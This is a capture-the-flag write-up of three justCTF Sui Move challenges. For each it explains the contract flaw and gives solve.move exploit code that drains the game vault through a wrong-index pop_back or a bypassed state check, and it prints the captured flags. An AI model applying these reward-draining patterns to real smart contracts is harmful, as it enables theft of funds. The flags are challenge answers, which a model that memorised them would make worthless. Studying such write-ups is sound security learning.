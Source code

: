 
## The Otter Scrolls

**[#1 The Otter Scrolls]**

To solve this level, we need to call the `cast_spell` function with the correct sequence of indices to set the `casted` attribute of the `Spellbook` to `true`. The function checks specific magic words in sequence: "Inferno" (fire), "Zephyr" (wind), "Call" (water), "Granite" (earth), and "Wazzup" (power).

We determined the indices for these words in their respective vectors and constructed the sequence `[1, 0, 3, 3, 3]`. This sequence corresponds to the required magic words in the correct order. By calling `cast_spell` with this sequence and verifying with `check_if_spell_casted`, we ensure the spell is successfully cast.


`solve.move` script:
```rust
module solve::solve {
    // [*] Import dependencies
    use challenge::theotterscrolls;
    public fun solve(
        _spellbook: &mut theotterscrolls::Spellbook,
        _ctx: &mut TxContext
    ) {
        // Your code here...
        let spell_sequence = vector[1, 0, 3, 3, 3];
        theotterscrolls::cast_spell(spell_sequence, _spellbook);
    }
}
```

```
Flag: justCTF{Th4t_sp3ll_looks_d4ngerous...keep_y0ur_distance}
```



## Dark BrOTTERhood

**[#2 Dark BrOTTERhood]**

To solve this level, we need to interact with the smart contract by calling several functions to register a player, equip them with a sword, find and fight monsters, get the rewards, and ultimately prove the solution.

The root cause of the problem is these lines in the `get_the_reward` function:
```javascript
    public fun get_the_reward(quest_id: u64, ...) {
        // check status with quest_id
        let quest_to_claim = vector::borrow_mut(&mut board.quests, quest_id);
        assert!(quest_to_claim.fight_status == FINISHED, WRONG_STATE);

        // but pop last index instead of quest_id
        let monster = vector::pop_back(&mut board.quests);
        ...
    }
```

The check is correctly performed against the quest_id, ensuring the fight_status is FINISHED. However, the pop_back function removes and returns the last element in the vector and the reward is mistakenly based on the last element of the vector rather than the quest at the quest_id index. This mismatch leads to inconsistencies and errors in the quest state management.


`solve.move`:
```javascript
module solve::solve {
    // [*] Import dependencies
    use challenge::Otter::{Self, OTTER};
    use sui::random::Random;
    #[allow(lint(public_random))]
    public fun solve(
        _vault: &mut Otter::Vault<OTTER>,
        _questboard: &mut Otter::QuestBoard,
        _player: &mut Otter::Player,
        _r: &Random,
        _ctx: &mut TxContext,
    ) {
        // Your code here ...
        // buy sword and defead at least one monster
        Otter::buy_sword(_vault, _player, _ctx);
        Otter::find_a_monster(_questboard, _r, _ctx);
        Otter::fight_monster(_questboard, _player, 0);
        Otter::return_home(_questboard, 0);

        let times: u64 = 100;
        let mut i: u64 = 0;
        while (i < times) {
            // add new monster at the end of quest vector
            Otter::find_a_monster(_questboard, _r, _ctx);
            // use defeated monter quest_id to get reward
            Otter::get_the_reward(_vault, _questboard, _player, 0, _ctx);
            i = i + 1;
        };

        // but flag
        let flag = Otter::buy_flag(_vault, _player, _ctx);
        Otter::prove(_questboard, flag);
    }
}
```

```
Flag: justCTF{I_us3d_to_b3_an_ott3r_until_i_t00k_th4t_arr0w}
```


## World of Ottercraft

**[#3 World of Ottercraft]**

The vulnerability in this challenge stems from the fact that the get_the_reward function does not verify monster power before awarding the reward. Instead, it simply pops the monster from the vector and grants the reward. Here’s the relevant code from the get_the_reward function:


```javascript
public fun get_the_reward(vault: &mut Vault<OTTER>, board: &mut QuestBoard, player: &mut Player, ctx: &mut TxContext) {
    assert!(player.status != RESTING && player.status != PREPARE_FOR_TROUBLE && player.status != ON_ADVENTURE, WRONG_PLAYER_STATE);
    // pop monter
    let monster = vector::remove(&mut board.quests, player.quest_index);
    ...
    // get reward from vault
    let coins = coin::split(&mut vault.cash, reward, ctx); 
    ...
    // send reward to player
    balance::join(&mut player.wallet, balance);

    player.status = RESTING;
}
```

In contrast, the return_home function, which should be called before get_the_reward, includes a crucial check to ensure that the monster's power is zero (indicating the monster has been defeated):


```javascript
public fun return_home(board: &mut QuestBoard, player: &mut Player) {
    assert!(player.status != SHOPPING && player.status != FINISHED && player.status != RESTING && player.status != PREPARE_FOR_TROUBLE, WRONG_PLAYER_STATE);

    let quest_to_finish = vector::borrow(&board.quests, player.quest_index);
    assert!(quest_to_finish.power == 0, WRONG_AMOUNT);

    player.status = FINISHED;
}
```

Exploiting the Vulnerability

To exploit this vulnerability, we need to avoid calling return_home and directly call get_the_reward. This can be achieved if we can enter the get_the_reward function while the player's status is SHOPPING, which can be done by calling the enter_tavern function. The following sequence of operations allows us to repeatedly call get_the_reward without the necessary checks.

```javascript
module solve::solve {
    // [*] Import dependencies
    use challenge::Otter::{Self, OTTER};
    public fun solve(
        _board: &mut Otter::QuestBoard,
        _vault: &mut Otter::Vault<OTTER>,
        _player: &mut Otter::Player,
        _ctx: &mut TxContext
    ) {
        // Your code here...
        // buy sword because we need to defeat monter to change state
        let mut ticket = Otter::enter_tavern(_player);
        Otter::buy_sword(_player, &mut ticket);
        Otter::checkout(ticket, _player, _ctx, _vault, _board);

        // add monter to vector so get_the_reward function can pop them later
        let num_quests: u64 = 24;
        let mut i: u64 = 0;
        while (i < num_quests) {
            Otter::find_a_monster(_board, _player);
            i = i + 1;
        };

        // continue scenario to reach RESTING status again
        Otter::bring_it_on(_board, _player, 0);
        Otter::return_home(_board, _player);
        Otter::get_the_reward(_vault, _board, _player, _ctx);

        // now we have full vector of monters we can set status to SHOPPING and loop over get_the_reward
        i = 0;
        while (i < num_quests - 1) {
            // enter SHOPPING status
            let mut shield_ticket = Otter::enter_tavern(_player);
            // buy something cheap just so we can checkout later
            Otter::buy_shield(_player, &mut shield_ticket);
            // enter get_the_reward in SHOPPING status and get reward without defeating monter
            Otter::get_the_reward(_vault, _board, _player, _ctx);
            // checkout because we need to use shield_ticket
            Otter::checkout(shield_ticket, _player, _ctx, _vault, _board);
            i = i + 1;
        };

        // buy flag
        let mut final_ticket = Otter::enter_tavern(_player);
        Otter::buy_flag(&mut final_ticket, _player);
        Otter::checkout(final_ticket, _player, _ctx, _vault, _board);
    }

}
```



```
Flag: justCTF{Ott3r_uses_expl0it_its_sup3r_eff3ctiv3}'
```


> Authors - [Mohammad Eminem](https://github.com/m-amini-sss)